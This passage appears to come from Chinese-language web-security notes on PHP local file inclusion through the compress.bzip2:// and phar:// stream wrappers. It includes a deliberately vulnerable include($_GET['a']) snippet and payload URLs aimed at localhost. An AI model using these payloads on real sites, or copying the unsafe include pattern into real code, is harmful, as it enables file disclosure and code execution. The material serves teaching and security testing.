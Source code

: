测试

用7-zip生成一个bz2压缩文件

pyload:`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2`

或者文件改为jpg后缀

`http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg`

#### zlib://协议

同上

### phar://协议

`phar://`协议与`zip://`类似,同样可以访问zip格式压缩包内容

```php
<?php
include($_GET["a"]);
?>
```

`http://localhost:32989/?a=phar:///var/www/html/phpinfo.zip/phpinfo.php`

`http://localhost:32989/?a=phar://phpinfo.zip/phpinfo.php`

## 死亡绕过

>todo
